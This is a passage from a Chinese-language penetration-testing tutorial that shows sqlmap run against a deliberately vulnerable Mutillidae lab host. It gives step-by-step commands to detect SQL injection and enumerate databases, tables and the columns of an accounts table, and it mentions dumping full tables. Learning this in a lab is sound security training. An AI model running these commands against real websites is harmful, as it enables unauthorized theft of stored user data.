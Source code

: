 如上图中所示，我们成功添加了文本并将其保存为“ hello.txt”文件在“ / tmp”目录中。

#### 0x07 使用SQLmap发现SQL注入并提取数据

Sqlmap是最主流和突破性的SQL注入自动化工具中的佼佼者。给定一个易受攻击的HTTP URL请求，sqlmap可以滥用远程数据库并完成大量黑客操作，例如删除数据库名称，表，列，表中的所有数据，等等。它甚至可以在特定条件下在远程文件系统上读写文档。

不熟悉sqlmap时，可能会很棘手。此sqlmap教学练习旨在以生动，基本的方式展示此主流SQL注入设备的最重要功能。

要启动sqlmap并列出所有可用选项，请键入“ sqlmap --help”。它将提供您需要了解的所有内容以及一些在实践中如何使用它的示例。让我们更仔细地看一下这个工具。 <img src="https://img-blog.csdnimg.cn/20200810174704495.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

转到Mutillidae登录页面，输入一些错误的凭据，然后按“ Enter”以生成流量并创建URL GET参数。 <img src="https://img-blog.csdnimg.cn/20200810174716692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

然后复制URL链接，并在sqlmap工具中使用它。

例：

sqlmap –u http://10.10.10.7/mutillidae/index.php?page=user-info.php&amp;username=test&amp;password=test&amp;user-info-php-submit-button=View+Account+Details 这里的“ -u”代表您要执行SQL注入攻击 的 目标URL。要跳过特定于其他DBMS的测试有效负载，请输入“ Y”。 <img src="https://img-blog.csdnimg.cn/20200810174731121.png" alt="在这里插入图片描述">

在搜索的几分钟内，sqlmap已经发现用户名是可注入的并且容易受到攻击，如屏幕截图所示。 <img src="https://img-blog.csdnimg.cn/20200810174738863.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

如果要查找更多漏洞，只需让该过程运行到最后，它就可以找到所有可用漏洞。对于演示，我们将按“ Crtl + C”在此处停止。

在此sqlmap教程中，有关提取数据的事情确实令人着迷。从SQL注入点恢复存储在数据库中的信息是一项艰巨的任务，尤其是当没有结果直接返回到易受攻击的网页中时。幸运的是，使用sqlmap可使分析仪提取宝贵的数据片段，而无须手工操作。首先，让我们使用类似的命令来提取要尝试破解的网站上所有可用的数据库，但最后，为数据库添加“ --dbs”选项。

例：

sqlmap –u http://10.10.10.7/mutillidae/index.php?page=user-info.php&amp;username=test&amp;password=test&amp;user-info-php-submit-button=View+Account+Details --dbs <img src="https://img-blog.csdnimg.cn/20200810174749572.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

sqlmap提取了所有可用的数据库。要注入更多的SQL查询，我们需要使用相同的命令来了解当前数据库，但将最后一个参数替换为“ --current-db”。

例：

sqlmap –u http://10.10.10.7/mutillidae/index.php?page=user-info.php&amp;username=test&amp;password=test&amp;user-info-php-submit-button=View+Account+Details --current-db 此命令的输出显示我们位于“ owasp10”数据库中。 <img src="https://img-blog.csdnimg.cn/20200810174803427.png" alt="在这里插入图片描述">

现在，使用命令“ --tables –D owasp10”来查看数据库“ owasp10”的所有可用表。 <img src="https://img-blog.csdnimg.cn/20200810174815463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

例：

sqlmap –u http://10.10.10.7/mutillidae/index.php?page=user-info.php&amp;username=test&amp;password=test&amp;user-info-php-submit-button=View+Account+Details --tables –D owasp10

如下图所示，我们设法提取了数据库“ owasp10”的所有可用表。 <img src="https://img-blog.csdnimg.cn/20200810174924891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

sqlmap还可以通过实现参数“ --columns -T [table_name]”来枚举列。

例：

sqlmap –u http://10.10.10.7/mutillidae/index.php?page=user-info.php&amp;username=test&amp;password=test&amp;user-info-php-submit-button=View+Account+Details --columns -T accounts

<img src="https://img-blog.csdnimg.cn/20200810174909680.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

黑客甚至有可能转储整个表或数据库，并使用选项“ --dump”列出所有有价值的信息。

例：
